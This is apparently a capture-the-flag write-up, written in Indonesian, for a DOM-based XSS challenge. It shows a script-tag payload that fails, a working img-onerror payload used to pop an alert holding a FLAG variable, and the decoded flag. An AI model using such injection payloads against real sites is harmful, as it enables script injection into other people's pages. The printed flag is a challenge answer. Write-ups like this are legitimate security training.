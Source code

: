 # DOM-Based XSS
## soal
-

## solve
- disini terdapat soal xss dom nah pertama tama saya mencoba payload simple seperti ```<script>alert{'test'}</script``` namun tidak berhasil
- lalu saya mencoba payload ```<img src="p" onerror="alert('test')">``` ini berhasil
- lalu saya mencoba lagi dengan nama variable FLAG dengan menggunakan payload ```<img src="p" onerror="alert(FLAG)">```
  ![alt text](<images/DOM-Based XSS/image.png>)
  ```bash
  27oFx9NE945YFuBYFshct2G4Mi3hmKpS7UTWS87yKMn
  ```
- lalu saya mencoba mendecode dengan cyber chef dengan recipe **Magic** dan berhasil mendapatkan flagnya
  ![alt text](<images/DOM-Based XSS/image-1.png>)

## flag
IDN_CTF{dom_based_xss_executed}